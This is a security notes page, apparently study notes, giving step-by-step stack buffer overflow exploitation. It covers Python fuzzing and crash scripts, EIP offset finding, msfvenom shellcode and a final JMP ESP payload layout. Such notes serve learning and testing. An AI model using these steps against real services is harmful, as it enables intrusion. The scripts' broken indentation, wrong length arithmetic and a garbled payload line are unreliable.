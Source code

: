 ```yaml
---
layout: page
title: Detailed Steps
permalink: /notes/security/BufferOverflow/detailed-steps
notes_section: Security
notes_category: Buffer Overflow
notes_label: Detailed Steps
notes_order: 3
---
```


1. **Fuzzing**
	Write a python program to test and crash the application. Then note down the application's threshold.		```
	```
	import socket
	import sys

	buffer = "A"*100

	while True:
	try:
		s=socket.socket()
		s.connect(("<target IP>", <target port>))
		print("Connected to the target")
		s.recv(1024)
		print'[*]Sending buffer with length: ' + str(len(buffer))
		s.send(buffer+'\r\n')
		s.close()
		buffer=buffer+'A'*20
	except:
		print'[*]Crashed at buffer length : ' + str(len(buffer)*100)
		sys.exit()
	```

2. Replicating the crash
	Send the exact no.of bytes at which the application crashed to the application.
	```
	import socket
	import sys

	buffer = "A" * <the value at which the application crashed>
	while True:
	try:
		s=socket.socket()
		s.connect(("<target IP>", <target port>))
		print("Connected to the target")
		s.recv(1024)
		print'[*]Sending buffer with length: ' + str(len(buffer))
		s.send(buffer+'\r\n')
		s.close()
	except:
		print'[*]Crash confirmed at buffer length : ' + str(len(buffer)*100)
		sys.exit()
	```

3. Generate random characters using pattern_create.rb script. It requires -l value. Here, the -l value is the no.of bytes at which the application crashed.
	```/path/to/pattern_create.rb -l <crash confirmed value>```

4.  Send the generated pattern as buffer to the target machine/application
	```
	import socket
	import sys

	buffer = <generated pattern in double quotes>
	while True:
	try:
		s=socket.socket()
		s.connect(("<target IP>", <target port>))
		print("Connected to the target")
		s.recv(1024)
		print'[*]Sending the pattern of length: ' + str(len(buffer))
		s.send(buffer+'\r\n')
		s.close()
	except:
		print'[*]Crash confirmed at : ' + str(len(buffer)*100)
		sys.exit()
	```

5. Observe that EIP registers value is changed. Note down that value.
6. Use pattern_offset.rb to find the exact offset of EIP register. It requires -l and -q. -l is the no.of bytes sent and -q is the recently noted EIP value.
7. Now, we have the exact offset of EIP register. If exact offset is 524 for example, send 524 A's and some extra characters to verify the exact offset of the EIP registers.
8. Identify the bad characters of the application by sending some bad characters via the buffer using python
9. Generate a shellcode using msfvenom, while generating, remove the badchars from the shellcode using -b flag. Mention the bad chars in between the apostrophe's. 
10. Identify the jmpesp's memory address. Note down the memory address. Now write the memory address in little endian.
11. For example, if jmpesp's memory is 311712F3, write it as 
		\xf3\x12\x17\x31
12. Little endian is used because x86 architecture understands little endian. send this along with the buffer to the target i.e.,
		"A"*524 +\xf3\x12\x17\x31 + "c" 8 600
13.  Add few NOPs, note down the shell code size, subtract the no.of NOPs added and the size of shellcode from the no.of c's
14. Final payload format should be something like,
		payload= "A"*exact offset + <jmpesp value written in little endian> + "\x90"* 4/8/12/16 + <shellcode> + "c" * 100/200/300/400
